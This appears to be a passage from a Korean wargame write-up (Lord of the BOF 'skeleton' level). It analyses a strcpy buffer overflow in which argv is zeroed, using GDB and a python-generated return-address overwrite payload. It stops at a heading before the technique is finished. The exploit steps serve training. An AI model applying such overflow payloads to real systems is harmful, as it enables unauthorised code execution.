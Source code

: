 ```c 

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
                memset(argv[i], 0, strlen(argv[i]));
}   
```

### 1.1 변경된 코드

추가된 제약사항은 `argv[]` 를 모두 0으로 clear 시키는 코드다. 즉, 공격에 `argv[]` 도 이용할 수 없다는 이야기다.

```c
// argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
                memset(argv[i], 0, strlen(argv[i]));
```

### 1.2 GDB 디버깅

```bash
$ gdb ./skeleton2
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux"...
(gdb)  r `python -c 'print "A"*44 + "\x94\xfb\xf0\xbf"'`  `python -c 'print "B"*100'`
```

#### x/s $esp : 스택을 string 으로 확인

```bash
0xbffffd9a:      ""
0xbffffd9b:      "i686"
0xbffffda0:      "/home/vampire/./skeleton2"     // argv[0]
0xbffffdba:      'A' <repeats 44 times>, "¿¿ð¿"  // argv[1]
0xbffffdeb:      'B' <repeats 100 times>         // argv[2]
0xbffffe50:      ""
0xbffffe51:      ""
```

#### membset() 의 destination address
